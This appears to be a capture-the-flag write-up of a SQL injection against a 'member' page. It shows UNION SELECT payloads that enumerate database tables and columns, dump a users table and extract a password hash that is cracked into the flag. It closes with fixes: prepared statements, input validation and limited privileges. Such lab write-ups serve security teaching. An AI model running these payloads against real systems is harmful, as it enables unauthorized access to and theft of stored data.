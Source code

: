 # Reproduction:  

On the **member** page, we used SQL injection to explore the database and obtain the flag.  

1. Retrieving available tables:  
   ```sql
   1 UNION SELECT table_name, null FROM information_schema.tables;
   ```  

2. Exploring columns:  
   ```sql
   1 UNION SELECT column_name, null FROM information_schema.columns;
   ```  

3. Extracting data from the `users` table:  
   ```sql
   1 UNION SELECT 1, first_name FROM users;
   ```  
   **Intriguing result**:  
   - ID: 1 UNION SELECT 1, first_name FROM users  
   - First name: 1  
   - Surname: Flag  

4. Retrieving information for the user with `user_id = 5` (as it comes in 5th position from our previous search):  
   ```sql
   1 UNION SELECT Commentaire, countersign FROM users WHERE user_id = 5;
   ```  
   **Result**:  
   - Countersign: `5ff9d0165b4f92b14994e5c685cdce28`  

5. Decrypting and transforming:  
   - MD5 → Plain text: `FortyTwo`  
   - Lowercase: `fortytwo`  
   - SHA-256: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`  

# Problem:  
The application is vulnerable to SQL injection, allowing reading of sensitive data and exploration of the entire database.  

# Solution:  
1. **Prepared statements**:  
   Use parameters to prevent direct execution of user inputs, for example in PHP:  
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id, PDO::PARAM_INT);
   $stmt->execute();
   ```  

2. **Input validation**:  
   Always filter inputs to prevent the execution of SQL commands.  

3. **Limited privileges**:  
   The database user should not have access to sensitive data such as `information_schema`.  

With these corrections, we can block this type of attack.